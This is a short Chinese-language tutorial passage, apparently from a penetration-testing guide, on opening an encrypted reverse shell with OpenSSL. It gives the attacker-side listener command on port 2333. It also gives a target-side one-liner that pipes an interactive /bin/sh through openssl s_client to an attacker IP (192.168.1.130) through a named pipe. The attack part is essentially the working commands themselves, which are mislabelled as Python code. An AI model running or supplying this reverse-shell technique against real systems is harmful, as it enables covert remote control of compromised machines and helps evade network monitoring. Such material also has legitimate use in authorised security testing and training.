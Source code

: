 假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

```python
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```python
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.1.130:2333 > /tmp/s; rm /tmp/s
```

这样攻击者便使用 OpenSSL 反弹了目标机一个加密的 shell。